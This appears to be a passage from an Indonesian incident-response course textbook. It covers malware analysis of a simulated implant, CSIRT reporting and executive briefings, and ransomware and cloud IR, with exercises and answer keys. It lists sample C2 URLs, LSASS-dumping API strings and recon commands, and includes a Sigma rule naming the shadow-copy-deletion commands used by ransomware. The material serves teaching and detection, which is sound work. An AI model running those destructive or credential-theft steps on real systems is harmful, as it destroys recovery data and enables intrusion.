Malware analysis tidak berdiri sendiri — nilainya paling besar ketika diintegrasikan ke dalam investigasi insiden yang lebih luas. Temuan dari analisis malware harus memperkuat (atau merevisi) hipotesis yang sudah dibentuk di Fase 1, memperluas IOC untuk blocking dan hunting, dan memberikan dasar untuk rekomendasi hardening yang spesifik terhadap kapabilitas attacker yang sudah diketahui.

## 4. Landasan Teori

### 4.1 Analisis stage2.exe — Static (Lanjutan dari Fase 1)

```python
"""
Static analysis stage2.exe — dalam VM terisolasi yang diotorisasi dosen
Hasil ini adalah dataset yang disediakan dosen, bukan eksekusi aktual
"""

# File Identification:
# stage2.exe: PE32+ executable (console) x86-64, for MS Windows
# Size: 512,000 bytes
# SHA256: 3a7b9c2d1e4f5a6b7c8d9e0f1a2b3c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b

# Strings signifikan (contoh dari dosen dataset):
strings_found = [
    "https://45.133.1.100/beacon",           # C2 URL
    "Mozilla/5.0 (Windows NT 10.0; Win64)",  # User agent untuk blend in
    "%APPDATA%\\.x\\",                        # Drop path
    "cmd.exe /c net user /domain",            # Reconnaissance command
    "HKCU\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", # Persistence key
    "MiniDumpWriteDump",                      # LSASS credential dumping
    "CreateRemoteThread",                     # Process injection
    "VirtualAllocEx",                         # Memory allocation for injection
    "HttpSendRequest",                        # HTTP communication
    "CryptEncrypt",                           # Encrypted communication
]

# PE Imports yang signifikan:
imports = {
    "KERNEL32.dll": ["VirtualAllocEx", "CreateRemoteThread", "WriteProcessMemory"],
    "ADVAPI32.dll": ["RegSetValueEx", "OpenProcessToken", "AdjustTokenPrivileges"],
    "WININET.dll":  ["HttpSendRequest", "InternetConnect", "InternetOpen"],
    "DBGHELP.dll":  ["MiniDumpWriteDump"],  # Credential dumping!
}

# Kesimpulan static:
# Malware ini adalah RAT/implant (kemungkinan Cobalt Strike beacon atau custom)
# dengan kapabilitas: credential dumping, process injection, C2 via HTTP,
# registry persistence, dan reconnaissance commands.
```

### 4.2 Analisis stage2.exe — Behavioral (dari Sandbox Report Dosen)

```
=== BEHAVIORAL REPORT — stage2.exe ===
Duration: 300 seconds dalam sandbox

PROCESS TREE:
stage2.exe (PID 1024)
├── cmd.exe → "net user /domain"       (domain recon)
├── cmd.exe → "net group 'Domain Admins' /domain"  (privilege recon)
├── cmd.exe → "ipconfig /all"           (network recon)
└── [Memory injection → lsass.exe]     (credential dump)

FILE ACTIVITY:
- Created: %APPDATA%\.x\stage2.exe (self-copy untuk persistence)
- Created: %TEMP%\dump_12345.dmp (LSASS dump — KRITIS: credential theft evidence!)
- Created: %APPDATA%\.x\config.dat (encrypted C2 config)

REGISTRY ACTIVITY:
- HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
  Appended: ",C:\Users\CEO\AppData\Roaming\.x\stage2.exe"  ← Winlogon Persistence!

NETWORK ACTIVITY:
- POST https://45.133.1.100/beacon setiap 60 detik
  Beacon payload (base64 decoded): {"id":"ceo-ws-01","os":"Win10","priv":"admin","domain":"NUSANTARA"}
  Response: {"cmd":"whoami /priv"}  ← Attacker mengirim command!
- DNS query: backup-c2.emeraldhost.net → NXDOMAIN (backup C2 — IOC baru!)

=== END BEHAVIORAL REPORT ===
```

### 4.3 Integrasi ke Timeline Master

```
EXTENDED TIMELINE — setelah malware analysis

[sebelumnya dari Fase 1...]
2025-10-15 01:35 UTC | EDR/Sysmon  | stage2.exe executed, LSASS access
                      |              | [BARU: Behavioral - credential dump ke %TEMP%\dump_12345.dmp]
2025-10-15 01:35 UTC | Sysmon E13  | Registry: Winlogon\Userinit modified [BARU: persistence mechanism]
2025-10-15 01:36 UTC | Network     | POST https://45.133.1.100/beacon (check-in)
                      |              | Attacker receives: domain=NUSANTARA, priv=admin
2025-10-15 01:36 UTC | Network     | Attacker sends command: "whoami /priv"
2025-10-15 01:36 UTC | Sysmon E1   | [BARU] cmd.exe: "whoami /priv" — output ke C2
2025-10-15 01:38 UTC | Sysmon E1   | [BARU] cmd.exe: "net user /domain" — domain recon
2025-10-15 01:39 UTC | Sysmon E1   | [BARU] cmd.exe: "net group 'Domain Admins' /domain"
2025-10-15 01:42 UTC | Sysmon E3   | SMB ke DC01 (diperkuat: tujuan adalah pass-the-hash
                      |              | menggunakan credential dari LSASS dump)
```

### 4.4 Extended ATT&CK Mapping

| # | Behavior | Taktik | Technique | Bukti |
|---|---|---|---|---|
| 1 | Spearphishing .docm email | Initial Access | T1566.001 | Email gateway log |
| 2 | Macro Word mengeksekusi PowerShell | Execution | T1204.002 + T1059.001 | Sysmon E1 |
| 3 | PowerShell download stage2.exe | Execution | T1105 (Ingress Tool Transfer) | Sysmon E3 |
| 4 | Winlogon Userinit modification | Persistence | T1547.004 | Sysmon E13 |
| 5 | Token manipulation (AdjustTokenPrivileges) | Privilege Escalation | T1134 | PE Import |
| 6 | LSASS memory dump (MiniDumpWriteDump) | Credential Access | T1003.001 | Behavioral + DBGHELP import |
| 7 | HTTP beacon setiap 60 detik | C2 | T1071.001 | Network PCAP |
| 8 | Domain reconnaissance commands | Discovery | T1069.002 + T1087.002 | Sysmon E1 |
| 9 | SMB lateral movement ke DC01 | Lateral Movement | T1021.002 | Sysmon E3 |

## 5. Model atau Arsitektur

```mermaid
flowchart LR
    subgraph Phase1["Phase 1 — IR Investigation"]
        P1A["Alert → Triage"] --> P1B["Evidence Collection"]
        P1B --> P1C["Timeline v1"]
        P1C --> P1D["IOC v1\nRoot Cause Hyp v1"]
    end
    
    subgraph Phase2["Phase 2 — Malware Analysis"]
        P2A["Static Analysis\nstage2.exe"] --> P2B["Behavioral Analysis"]
        P2B --> P2C["Capability Profile:\nCredential dump,\nC2 HTTP, Persistence"]
    end
    
    subgraph Integration["Integration"]
        P1D --> INT["Merge Findings"]
        P2C --> INT
        INT --> TL2["Timeline v2\n(enriched)"]
        INT --> IOC2["IOC v2\n(extended: backup C2,\nLSASS dump file)"]
        INT --> ATT["ATT&CK Mapping\n(9 techniques)"]
        INT --> RCA["Root Cause v2\n(MEDIUM-HIGH → HIGH confidence)"]
    end
```

## 6. Contoh Terapan

**Revisi confidence level setelah malware analysis:**

Fase 1 hypothesis confidence: MEDIUM-HIGH
Alasan awal: timeline konsisten tapi belum ada konfirmasi lateral movement.

Setelah malware analysis:
- LSASS credential dump dikonfirmasi (behavioral report: dump file ada)
- Winlogon persistence dikonfirmasi (registry modification terdeteksi)
- Attacker memiliki kemampuan pass-the-hash yang terbukti dari imports

Fase 2 hypothesis confidence: HIGH
Karena: kapabilitas credential theft dikonfirmasi oleh behavioral analysis → lateral movement ke DC01 menggunakan stolen credential adalah sangat probable. Rekomendasi: treat DC01 sebagai potentially compromised dan lanjutkan investigasi dengan prioritas tinggi.

## 7. Praktikum atau Aktivitas Terarah

**Capstone Phase 2 — Aktivitas Tim:**

1. Tim menerima behavioral report stage2.exe (dataset dari dosen — disimulasikan dari sandbox run yang dilakukan di lab terisolasi).
2. Malware Analyst menganalisis: statik analysis notes, kemudian merge dengan behavioral report.
3. Seluruh tim mengintegrasikan temuan: update timeline, update IOC table, update ATT&CK mapping.
4. IR Lead merevisi root cause hypothesis dan confidence level.
5. Tim menyusun bagian "Malware Analysis" dari laporan capstone.

**Output:** Bagian Malware Analysis dari Capstone CSIRT Report (komponen 2/3 dari Eval-5).

## 8. Latihan Pemahaman

1. **(C4)** Behavioral report menunjukkan backup C2 domain: `backup-c2.emeraldhost.net` yang menghasilkan NXDOMAIN. Mengapa domain ini tetap harus masuk sebagai IOC meskipun tidak berhasil terhubung?

2. **(C5)** Malware menggunakan beacon interval 60 detik. Sebagai network defender, apa implikasinya untuk tuning threshold alert di IDS/SIEM Anda?

## 9. Latihan Terapan / Studi Kasus

Berdasarkan capability profile stage2.exe: credential dumping, process injection, HTTP C2, dan recon commands — identifikasi minimum 5 kontrol keamanan spesifik yang, jika sudah ada sebelum insiden, akan membuat serangan ini lebih sulit atau lebih mudah terdeteksi. Untuk setiap kontrol: (a) jelaskan bagaimana kontrol tersebut mengganggu serangan; (b) di fase mana dalam Kill Chain kontrol tersebut bekerja; (c) apakah kontrol tersebut bersifat preventif, detektif, atau korektif?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Backup C2 domain tetap harus masuk sebagai IOC karena: (a) malware sudah dikonfigurasikan dengan domain tersebut — ini adalah IOC yang valid tentang infrastruktur attacker; (b) domain sekarang NXDOMAIN bukan berarti tidak berbahaya — attacker bisa mengaktifkannya kapan saja jika C2 utama diblokir; (c) domain ini dapat membantu mengidentifikasi host lain yang terinfeksi varian malware yang sama dengan konfigurasi backup C2 yang sama; (d) domain ini mungkin memiliki historical DNS records yang memberikan informasi tentang hosting infrastructure attacker; (e) jika diblokir di DNS firewall, mencegah malware "call home" ke backup C2 jika primary diblokir.

**Soal 2:** Beacon interval 60 detik memiliki implikasi: (a) JANGAN set alert threshold yang terlalu pendek — misalnya alert "koneksi berulang ke host eksternal dalam 10 detik" akan miss beacon 60 detik ini; (b) Cari pola beacon dalam time series: tool seperti RITA (Real Intelligence Threat Analytics) dapat mendeteksi "beaconing" — komunikasi yang terlalu regular untuk menjadi traffic manusia (manusia tidak browsing web setiap tepat 60 detik); (c) Set alert: "koneksi HTTP/S ke IP non-kategorized yang berulang dengan interval regular 50-70 detik selama lebih dari 10 menit" — ini yang akan menangkap behavior ini; (d) 60 detik juga cukup cepat untuk attacker mendapat response time interaktif, tapi cukup lambat untuk menghindari beberapa beaconing detector yang fokus pada interval sangat pendek.

**Studi Kasus Kontrol Keamanan:**
1. **Credential Guard (Windows)** — mencegah LSASS dump: Preventif; Kill Chain: Exploitation → C2 (mencegah credential theft); T1003.001 counter.
2. **Email gateway sandboxing dan disable macros by policy** — mencegah initial access: Preventif; Kill Chain: Delivery → Exploitation.
3. **Application Whitelisting / WDAC** — mencegah stage2.exe berjalan: Preventif; Kill Chain: Installation.
4. **Network segmentation dengan egress filtering** — membatasi HTTP beacon ke C2: Detektif + Preventif; Kill Chain: C2.
5. **Sysmon + SIEM rules untuk Winlogon Userinit modification** — mendeteksi persistence: Detektif; Kill Chain: Persistence (NIST phase: Detection).
6. **MFA untuk SMB/RDP lateral movement** — mencegah lateral movement meski credential dicuri: Preventif; Kill Chain: Lateral Movement.

## 11. Ringkasan Bab

Malware analysis dalam konteks insiden menghasilkan nilai berlipat: capability profile memperkuat root cause hypothesis, temuan baru (backup C2, LSASS dump path, persistence mechanism) memperluas IOC table, dan ATT&CK mapping yang lengkap menjadi dasar untuk rekomendasi hardening yang spesifik dan terukur.

## 12. Refleksi Profesional

1. Attacker dalam skenario ini menggunakan teknik yang sudah diketahui dan terdokumentasi di ATT&CK (LSASS dumping, PowerShell download, Winlogon persistence). Seandainya organisasi ini sudah memiliki monitoring berbasis ATT&CK sebelum insiden, apakah serangan ini bisa dicegah atau setidaknya terdeteksi lebih awal? Apa yang mencegah organisasi dari mengimplementasikan hal ini? Siapa yang harus bertanggung jawab?

---

# BAB 14 — CAPSTONE FASE 3: CSIRT REPORT, EXECUTIVE BRIEFING, DAN LESSONS LEARNED

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Menyusun laporan CSIRT lengkap yang memenuhi standar profesional
- Menyampaikan executive briefing secara terstruktur kepada audiens non-teknis
- Mengidentifikasi dan memprioritaskan lessons learned yang actionable
- Menyusun improvement plan berbasis evidence dari insiden

*Berkaitan dengan Sub-CPMK-5, Eval-5/EAS (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Phase 1 + Phase 2 Findings] --> B[Full CSIRT Report]
    B --> B1["Executive Summary"]
    B --> B2["Incident Timeline\n(complete)"]
    B --> B3["Impact Assessment"]
    B --> B4["Malware Analysis Summary"]
    B --> B5["Complete IOC Table"]
    B --> B6["ATT&CK Matrix\n(full mapping)"]
    B --> B7["Containment &\nEradication Actions"]
    B --> B8["Recommendations\n(prioritized)"]
    B --> C[Executive Briefing]
    C --> C1["5-10 menit: apa terjadi,\napa dampak, apa dilakukan"]
    C --> C2["Q&A preparation"]
    A --> D[Lessons Learned Session]
    D --> D1["What worked well?"]
    D --> D2["What didn't work?"]
    D --> D3["Root causes of\ndefense gaps"]
    D --> D4["Improvement action plan:\nwhat, who, when"]
    D --> E[Post-Incident Activities]
    E --> E1["Update playbook berdasarkan\npengalaman insiden ini"]
    E --> E2["Threat intel sharing\n(TLP:WHITE IOC)"]
    E --> E3["Training needs\nidentification"]
```

## 3. Pengantar Kontekstual

CSIRT report yang profesional adalah output akhir dari seluruh proses IR. Ini bukan hanya dokumen teknis — ini adalah akuntabilitas profesional yang dapat digunakan dalam audit, litigasi, regulasi, dan peningkatan berkelanjutan. Lessons learned yang jujur (bukan yang sekadar menutupi kesalahan) adalah fondasi dari program keamanan yang semakin matang.

## 4. Landasan Teori

### 4.1 Struktur Full CSIRT Report

```
LAPORAN INSIDEN KEAMANAN SIBER
PT NUSANTARA DIGITAL
================================
KLASIFIKASI: TLP:AMBER (Distribusi Internal)
Insiden ID: INC-2025-1015-001
Tanggal Insiden: 15 Oktober 2025
Tanggal Laporan: 22 Oktober 2025
Disusun oleh: Tim CSIRT FDKS [Kelompok]
Disetujui: [IR Lead]

---
1. EXECUTIVE SUMMARY (1-2 halaman)

Pada tanggal 15 Oktober 2025, PT Nusantara Digital mengalami insiden
keamanan siber ketika seorang attacker berhasil mengompromis workstation
CEO melalui serangan spearphishing bertarget. Attacker menginstal implant
yang memiliki kemampuan credential theft dan berhasil melakukan
reconnaissance domain. Respons insiden dimulai dalam 5 menit setelah
alert EDR, dan sistem berhasil diisolasi dalam 18 menit dari deteksi.
Investigasi mengkonfirmasi tidak ada akses ke database pelanggan.
Insiden menyebabkan downtime workstation CEO selama 4 jam dan memerlukan
rebuild sistem. Total biaya respons: [estimasi].

2. KRONOLOGI INSIDEN (Timeline lengkap)
[Timeline master dari Fase 1 + Fase 2, dengan semua entries]

3. PENILAIAN DAMPAK

   3.1 Sistem yang terdampak:
   - WS-CEO-01: dikompromis (credential dicuri, implant diinstal)
   - DC01: potensial terdampak — investigasi mengkonfirmasi tidak ada
     successful logon dari WS-CEO-01; tidak dikompromis.
   
   3.2 Data yang terdampak:
   - Credential CEO (Windows domain) dianggap ter-compromise
   - Tidak ada bukti exfiltration data bisnis atau data pelanggan
   
   3.3 Financial impact (estimasi):
   - Downtime biaya: [hitungan] jam × [cost per jam]
   - IR response cost: [person-hours × rate]
   - Rebuild dan remediation: [estimasi]

4. ANALISIS MALWARE
[Ringkasan dari Fase 2: static findings, behavioral findings,
capability profile, classification]

5. IOC TABLE (Lengkap)
[Semua IOC dari kedua fase, terstruktur dengan tipe, nilai, confidence, sumber]

6. ATT&CK TTP MAPPING
[Tabel lengkap 9 techniques dengan evidence]

7. TINDAKAN YANG DIAMBIL

   7.1 Containment: [detail tindakan, timestamp, siapa]
   7.2 Eradication: [detail tindakan, verifikasi]
   7.3 Recovery: [restore/rebuild, validasi, monitoring]

8. REKOMENDASI (diprioritaskan)

   CRITICAL (implementasi dalam 7 hari):
   [1] Deploy Credential Guard di semua workstation
   [2] Block macro execution via Group Policy
   [3] MFA untuk semua admin accounts
   
   HIGH (implementasi dalam 30 hari):
   [4] Deploy ATP email sandboxing
   [5] Implement LSASS protection (RunAsPPL)
   [6] Update Sysmon rules untuk persistence detection
   
   MEDIUM (implementasi dalam 90 hari):
   [7] Network segmentation review
   [8] User awareness training (khusus exec level)

9. LAMPIRAN
   A. Evidence inventory (chain of custody)
   B. YARA rules yang dibuat dari malware ini
   C. Sigma rules yang dibuat dari malware ini
   D. Contact list CSIRT
```

### 4.2 Executive Briefing — Struktur 5-10 Menit

**Slide 1: Apa yang Terjadi (1 menit)**
- Satu kalimat insiden: "CEO dikompromis melalui email phishing bertarget pada 15 Oktober pukul 08.32 WIB"
- Satu kalimat respons: "Tim keamanan mendeteksi dalam 15 menit dan mengisolasi sistem dalam 18 menit"

**Slide 2: Dampak (2 menit)**
- Apa yang dikompromis: workstation CEO, credential domain
- Apa yang TIDAK dikompromis: database pelanggan, sistem keuangan, DC01
- Downtime bisnis: 4 jam workstation CEO

**Slide 3: Bagaimana Ini Terjadi (2 menit)**
- Diagram sederhana: email phishing → macro → malware → credential theft → lateral movement attempt
- NON-TEKNIS: "Penyerang mengirim email yang tampak resmi dari divisi HRD, ketika CEO membuka lampirannya, program jahat terpasang secara otomatis"

**Slide 4: Apa yang Sudah Dilakukan (2 menit)**
- Sistem diisolasi dan dibersihkan
- Credential CEO dan semua administrator direset
- Analisis lengkap dilakukan
- Aturan deteksi baru dideploy

**Slide 5: Rekomendasi dan Langkah Ke Depan (2 menit)**
- Top 3 rekomendasi dengan prioritas dan timeline
- Estimasi investasi yang diperlukan
- Permintaan persetujuan untuk implementasi

### 4.3 Lessons Learned Session

Format lessons learned yang blameless (tidak menyalahkan individu, fokus pada sistem):

```
LESSONS LEARNED SESSION — INC-2025-1015-001
============================================
Fasilitator: IR Lead
Peserta: Tim CSIRT, IT Manager, CISO, perwakilan bisnis

FORMAT PERTANYAAN (blameless):

Q: Apa yang BERJALAN DENGAN BAIK dalam respons ini?
A: EDR detection cepat (15 menit), communication dengan manajemen terstruktur,
   evidence preservation followed protocol, CSIRT team coordination effective

Q: Apa yang TIDAK BERJALAN DENGAN BAIK?
A: Tidak ada playbook spesifik untuk spearphishing eksekutif,
   tidak ada baseline registry Winlogon di SIEM,
   backup DC01 logs tidak mudah diakses saat dibutuhkan

Q: Apa ROOT CAUSE dari setiap gap yang ditemukan?
A: Gap playbook: tidak ada review playbook dalam 12 bulan
   Gap SIEM rule: tidak ada program systematic ATT&CK coverage review
   Gap log accessibility: centralized log management belum fully implemented

Q: Apa ACTION yang akan mencegah/mitigasi ini di masa depan?
A: [Lihat action plan di bawah]

ACTION PLAN:
| Action | Owner | Target Date | Success Metric |
|--------|-------|-------------|----------------|
| Review dan update seluruh playbook | CSIRT Lead | 30 Nov 2025 | Playbook reviewed, gap filled |
| ATT&CK coverage analysis dan update SIEM | SOC Lead | 15 Nov 2025 | Coverage report, 5 new rules |
| Centralized log management project kickoff | IT Infra | 1 Des 2025 | Project plan approved |
| Exec phishing awareness training | HR + Security | 15 Nov 2025 | CEO + all direx trained |
```

## 5. Model atau Arsitektur

```mermaid
flowchart TD
    subgraph REPORT["CSIRT Report Hierarchy"]
        ES["Executive Summary\n(non-technical, 1-2 pages)"]
        TL["Complete Timeline\n(technical, chronological)"]
        IA["Impact Assessment\n(systems, data, financial)"]
        MA["Malware Analysis Summary\n(technical)"]
        IOC["Complete IOC Table\n(actionable)"]
        ATT["ATT&CK Mapping\n(strategic)"]
        REC["Prioritized Recommendations\n(actionable, owner, timeline)"]
        
        ES -.-> TL
        ES -.-> IA
        TL --> MA
        MA --> IOC
        IOC --> ATT
        ATT --> REC
    end
    
    REPORT --> EB["Executive Briefing\n(5-10 min deck)"]
    REPORT --> LL["Lessons Learned Session"]
    LL --> AP["Action Plan\n(who, what, when)"]
    AP --> PLAYBOOK["Updated Playbook\n& Defense Improvements"]
```

## 6. Contoh Terapan

**Contoh narasi executive summary yang baik vs. buruk:**

❌ BURUK (terlalu teknis dan defensive):
"Sysmon mendeteksi T1003.001 LSASS credential dumping oleh stage2.exe yang di-drop melalui macro DOCM setelah spearphishing via SMTP. IOC meliputi SHA256 hash 3a7b... dan IP 45.133.1.100 yang terdaftar sebagai Cobalt Strike C2 di ThreatFox."

✅ BAIK (jelas, actionable, appropriate untuk audiens):
"Penyerang eksternal menarget CEO dengan email yang menyerupai komunikasi internal HR. Ketika CEO membuka lampiran email tersebut, program jahat terpasang yang memungkinkan penyerang mencuri password dan mencoba mengakses server pusat. Tim keamanan mendeteksi serangan ini dalam 15 menit dan berhasil menghentikannya sebelum database pelanggan atau sistem keuangan terdampak. Insiden ini mengakibatkan komputer CEO tidak dapat digunakan selama 4 jam, yang telah dipulihkan. Berdasarkan investigasi menyeluruh, kami merekomendasikan tiga tindakan prioritas yang dapat mencegah insiden serupa."

## 7. Praktikum atau Aktivitas Terarah

**Capstone Phase 3 — Aktivitas Final:**

1. Tim mengintegrasikan semua output dari Fase 1 dan Fase 2 ke dalam dokumen CSIRT Report lengkap menggunakan template yang disediakan.
2. IR Lead menyiapkan executive briefing deck (5-10 slide) dari laporan tersebut.
3. Kelompok mempresentasikan executive briefing kepada kelas (dosen berperan sebagai CISO/Direksi):
   - 7 menit presentasi
   - 8 menit Q&A dari "manajemen" (dosen dan mahasiswa lain)
4. Setelah presentasi, kelompok menjalankan blameless lessons learned session singkat (15 menit) dan menghasilkan action plan.

**Output:** Full CSIRT Capstone Report + Executive Briefing Deck — EAS/Eval-5 (25%).

## 8. Latihan Pemahaman

1. **(C5)** Seorang auditor eksternal meminta "full technical incident report" yang isinya mencakup semua vulnerability yang ditemukan dalam investigasi. Apakah Anda memberikannya begitu saja? Apa pertimbangan keamanan dan legal yang perlu dipertimbangkan sebelum mendistribusikan laporan insiden?

2. **(C4)** Dalam lessons learned, salah satu anggota tim menyarankan untuk mencatat bahwa "kelambatan respons disebabkan karena operator SOC shift malam tidak berpengalaman." Bagaimana Anda, sebagai fasilitator, merespons saran ini dalam kerangka blameless post-incident review?

## 9. Latihan Terapan / Studi Kasus

Anda diminta menyusun "executive communication" kepada CISO dalam 24 jam pertama insiden, ketika investigasi masih berjalan. Saat itu Anda tahu: (a) satu workstation dikompromis via phishing; (b) credential CEO mungkin ter-steal; (c) upaya lateral movement ke DC01 terdeteksi tapi belum dikonfirmasi berhasil; (d) belum ada bukti data exfiltration tapi juga belum bisa dipastikan tidak ada. Tulis komunikasi tersebut yang: jujur tentang apa yang diketahui dan tidak diketahui, action-oriented, tidak menimbulkan kepanikan yang tidak perlu, dan memenuhi kewajiban profesional seorang CSIRT.

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Pertimbangan sebelum mendistribusikan laporan teknis lengkap: (a) Klasifikasi TLP — laporan lengkap biasanya TLP:AMBER (distribusi ke dalam organisasi dan trusted partners saja) atau TLP:RED (sangat terbatas); mendistribusikan ke auditor eksternal mungkin memerlukan klasifikasi ulang dan persetujuan management; (b) Informasi sensitif dalam laporan: IOC yang belum dipublikasikan (jika dishare luas, attacker mengetahui bahwa infrastruktur mereka sudah diidentifikasi), vulnerability spesifik yang belum di-patch (memberikan blueprint untuk serangan serupa ke attacker lain), detail forensic yang mungkin relevan untuk litigasi (sekali dishare, confidentiality bisa hilang); (c) Legal consideration: jika ada kemungkinan litigasi (terhadap attacker, atau terhadap organisasi), laporan forensik adalah potential evidence — diskusikan dengan Legal sebelum distribusi; (d) Praktik yang benar: siapkan versi laporan yang sesuai audiensi — versi redacted untuk auditor eksternal dengan informasi yang relevan untuk audit purpose saja, bukan full technical detail.

**Soal 2:** Dalam blameless post-incident review, respons yang tepat: "Terima kasih atas observasi ini. Pertanyaan yang lebih berguna bukan 'siapa yang kurang berpengalaman' tapi 'mengapa sistem kita bergantung pada pengalaman individu, bukan pada proses dan tools yang baik?' Jika satu orang berpengalaman versus tidak berpengalaman menghasilkan respons yang sangat berbeda, itu berarti kita perlu: (a) better runbook yang bisa diikuti oleh siapa pun, (b) escalation path yang jelas, (c) mungkin automation untuk tindakan pertama (auto-isolation). Mari kita diskusikan bagaimana membuat sistem kita lebih resilient terhadap variasi kemampuan individu." Pendekatan ini: (1) tidak menyalahkan individu, (2) mengidentifikasi sistem failure di balik human performance gap, (3) mengarahkan ke action yang konstruktif.

**Studi Kasus Executive Communication:**

"Kepada CISO PT Nusantara Digital,
Update Insiden Keamanan — INC-2025-1015-001 — Pukul 13:00 WIB

YANG SUDAH DIKONFIRMASI:
Workstation CEO (WS-CEO-01) dikompromis melalui email phishing pukul 08:32 WIB. Malware berhasil diinstal dan credential domain CEO kemungkinan ter-steal. Workstation telah diisolasi sejak pukul 09:47 WIB (18 menit setelah deteksi). Credential CEO dan semua administrator domain telah direset.

YANG MASIH DIINVESTIGASI:
Apakah lateral movement ke DC01 berhasil — sedang kami analisis log DC01 sekarang, estimasi konfirmasi: 2 jam. Apakah ada data yang keluar dari jaringan — analisis network log sedang berjalan, estimasi: 4 jam.

YANG BELUM DIKETAHUI:
Status data pelanggan — kami tidak bisa mengkonfirmasi aman atau tidak sebelum investigasi selesai. Tidak ada bukti exfiltration saat ini, tapi kami belum bisa menyatakan aman.

TINDAKAN BERIKUTNYA:
Kami akan memberikan update berikutnya pukul 17:00 WIB dengan hasil investigasi DC01 dan network exfiltration analysis.

YANG DIPERLUKAN DARI ANDA:
Persetujuan untuk melanjutkan investigasi full-scope. Apakah perlu mengaktifkan retainer IR eksternal jika scope lebih besar dari yang diperkirakan?

Tim CSIRT"

## 11. Ringkasan Bab

CSIRT report lengkap mengintegrasikan semua temuan dalam struktur yang dapat diaudit dan ditindaklanjuti. Executive briefing mengkomunikasikan insiden dalam bahasa bisnis dengan fokus pada dampak dan tindakan. Lessons learned yang blameless mengidentifikasi perbaikan sistemik, bukan menyalahkan individu. Action plan dari lessons learned adalah mekanisme untuk terus meningkatkan kematangan program keamanan.

## 12. Refleksi Profesional

1. CSIRT report yang Anda buat mungkin suatu saat digunakan sebagai bukti dalam persidangan — baik untuk menuntut attacker maupun sebagai bukti bahwa organisasi telah (atau belum) memenuhi standar due care. Apa implikasinya terhadap cara Anda mendokumentasikan insiden, setiap tindakan yang diambil, dan setiap keputusan yang dibuat selama respons? Apa yang TIDAK boleh ada dalam laporan IR?


---

# BAB 15 — PENGAYAAN: RANSOMWARE RESPONSE DAN CLOUD INCIDENT RESPONSE

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Mengidentifikasi karakteristik unik insiden ransomware dan strategi respons khusus
- Memahami tantangan IR dalam lingkungan cloud (AWS/Azure/GCP)
- Mengidentifikasi artefak forensik yang tersedia dan tidak tersedia di cloud

*Bab Pengayaan — tidak termasuk dalam evaluasi formal (bobot 0%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Specialized IR Scenarios] --> B[Ransomware Response]
    B --> B1["Pre-attack: backup\n3-2-1, offline copy"]
    B --> B2["Detection: file extension\nchange, VSS deletion"]
    B --> B3["Containment: isolasi CEPAT,\nhentikan enkripsi aktif"]
    B --> B4["Eradication: identifikasi\nRansomware-as-a-Service variant"]
    B --> B5["Recovery: backup integrity,\ntidak bayar ransom kecuali terpaksa"]
    B --> B6["Law enforcement:\nlapor ke BSSN, Polri Siber"]
    A --> C[Cloud IR]
    C --> C1["AWS: CloudTrail,\nVPC Flow Logs, GuardDuty"]
    C --> C2["Azure: Activity Log,\nMicrosoft Sentinel, Defender"]
    C --> C3["Log retention: pahami\ndefault retention cloud provider"]
    C --> C4["Identity-centric IR:\nIAM, service accounts, roles"]
    C --> C5["Shared responsibility:\napa yang bisa kita forensik\nvs. tanggung jawab provider"]
```

## 3. Pengantar Kontekstual

Ransomware dan cloud mewakili dua tantangan modern yang paling signifikan dalam IR. Ransomware menuntut respons yang sangat cepat (setiap menit lebih banyak file terenkripsi) dengan keputusan yang sulit (bayar atau tidak bayar?). IR di cloud memerlukan pemahaman tentang model tanggung jawab bersama dan artefak yang berbeda dari on-premises.

## 4. Landasan Teori

### 4.1 Ransomware Response — Kekhasan dan Strategi

**Yang membuat ransomware berbeda dari malware lain:**
1. **Time-critical containment:** File sedang dienkripsi secara aktif — setiap menit delay berarti lebih banyak file yang hilang
2. **Difficult recovery without backup:** Tidak seperti kebanyakan malware, ransomware merusak data secara langsung
3. **Law enforcement dimension:** Ransom payment mungkin melanggar sanksi OFAC (internasional) atau regulasi lokal
4. **Double extortion:** Banyak ransomware modern tidak hanya mengenkripsi tapi juga mengancam merilis data (exfiltration sebelum enkripsi)

**Pre-attack preparedness (yang paling penting):**
```
Backup Strategy 3-2-1:
- 3 salinan data
- 2 media yang berbeda (disk + tape, atau disk + cloud)
- 1 salinan offline (air-gapped — tidak dapat diakses dari network)

Mengapa offline backup kritis: Ransomware modern secara otomatis mencari
dan mengenkripsi atau menghapus backup yang terhubung ke network.
```

**Detection indicators spesifik ransomware:**
```bash
# Deteksi perubahan massal ekstensi file (indikator kuat ransomware aktif)
# (dijalankan sebagai monitoring rule, bukan respons aktif):
# - Ribuan file system change events dalam menit
# - File extension yang diubah ke .locked, .encrypted, .WNCRY, dll.

# VSS deletion command yang sering digunakan ransomware:
# vssadmin.exe Delete Shadows /All /Quiet
# wmic shadowcopy delete
# bcdedit /set {default} recoveryenabled No
# Sigma rule untuk deteksi:
detection:
  selection:
    CommandLine|contains:
      - 'vssadmin Delete Shadows'
      - 'wmic shadowcopy delete'
      - 'bcdedit /set'
  condition: selection
```

**Keputusan "bayar atau tidak bayar ransom":**
Ini adalah keputusan bisnis, hukum, dan etika — bukan keputusan teknis semata.

| Pertimbangan | Argumen TIDAK Bayar | Argumen BAYAR (sebagai last resort) |
|---|---|---|
| Teknis | Tidak ada jaminan decryptor berfungsi | Jika backup tidak ada dan data kritis |
| Hukum | Mungkin melanggar sanksi OFAC jika grup ransomware terkena sanksi | N/A |
| Etika | Membiayai kejahatan dan insentif serangan berikutnya | N/A |
| Bisnis | Downtime lebih lama mungkin lebih murah dari kerusakan reputasi | Jika downtime lebih mahal dari tebusan |
| Praktis | Tidak menghapus malware — hanya decrypts file | Mungkin data tidak bisa di-recover lain |

**Prinsip:** Keputusan bayar ransom harus melibatkan Legal, Compliance, Board/Direksi, dan konsultasi law enforcement — bukan keputusan tim teknis seorang diri.

### 4.2 Cloud Incident Response

**Model tanggung jawab bersama dan implikasi forensik:**

```
AWS Shared Responsibility:
- AWS bertanggung jawab: keamanan OF the cloud (hardware, hypervisor, network fisik)
